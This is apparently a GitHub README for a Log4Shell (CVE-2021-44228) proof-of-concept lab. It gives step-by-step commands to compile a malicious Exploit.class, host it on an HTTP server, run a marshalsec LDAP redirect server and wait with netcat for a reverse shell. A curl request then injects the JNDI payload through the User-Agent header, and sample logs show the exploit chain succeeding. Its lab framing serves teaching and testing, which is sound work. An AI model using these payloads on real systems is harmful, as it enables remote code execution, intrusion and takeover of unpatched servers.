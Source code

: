 # Log4Shell POC (CVE-2021-44228)

This is a fork from [marcourbano's](https://github.com/marcourbano/CVE-2021-44228/) repo but with a clearer explanation on setting it up and using an ubuntu server rather than docker. It is also setup to allow a reverse shell from the labs target server.

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:

Kali Linux with 
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. The Java **Exploit.class** (and the corresponding Exploit.java file) that will be loaded by the Vulnerable application.
3. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Ubuntu Server with:
1. A Vulnerable Java Application (found in the log4j-lab folder)

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.

Prerequisites:
- Java
- Python
- maven
- Kali Linux
- Ubuntu Server

# Kali Linux
clone the git repo to your Kali VM
## Prepping Java File
Edit the .java file to enter your local Kali machines IP
```bash
cd attacker/exploit && sudo nano Exploit.java
```
```bash
sudo apt install openjdk-11-jdk -y
```
Once you have updated your java file to point to your Kali machine's IP, You need to compile it
```bash
sudo javac -source 1.8 -target 1.8 Exploit.java
```

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```bash
python3 -m http.server PORT
```
### `LDAP Server`
In a seperate Terminal Tab/Window:
**1.** Move to `ldap_server` folder and build the `pom.xml`

Install Maven if required
```bash
sudo apt installl maven -y
```

```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```bash
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```
## Listen for callback
In a seperate Terminal Tab/Window:
**1.** Use the Listen back command on port 4444 to wait for a reverse shell
```bash
nc -lvnp 4444
```
*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




# Ubuntu Server
## Running the `Vulnerable application`

Boot up a fresh Ubuntu Server VM and run the below commands to get started with installing dependencies

```bash
sudo apt update && sudo apt upgrade -y
```
```bash
sudo apt install openjdk-11-jdk -y
```
Once the server is setup, clone the git repo to the Ubuntu server and cd into the log4j-lab folder.
```bash
cd TargetServer/log4j-lab
```
You will need to download the log4j dependanies for the vulnerable java application to run
```bash
sudo wget https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.tar.gz
sudo tar -xzf apache-log4j-2.14.1-bin.tar.gz
sudo mv apache-log4j-2.14.1-bin log4j
```

To run the Application just run 
```bash
sudo chmod +x run_vulnerable_app.sh
```
```bash
./run_vulnerable_app.sh
```

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.
In a seperate Terminal Tab run the below,
```bash
curl -H 'User-Agent: ${jndi:ldap://LDAP_SERVER_IP:LDAP_PORT/exploit}' http://TARGETSERVERIP:8080/
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2025-01-12 18:48:14  [HTTP-DISPATCHER] INFO VulnerableApp - User-Agent: ${jndi:ldap://10.0.2.15:1389/exploit}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, In the Terminal window you had the netcat listening, you should now have reverse shell access



## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@AdamJN](https://github.com/AdamJNew)

[@CrashOverflow](https://github.com/marcourbano) - Forked from his repo

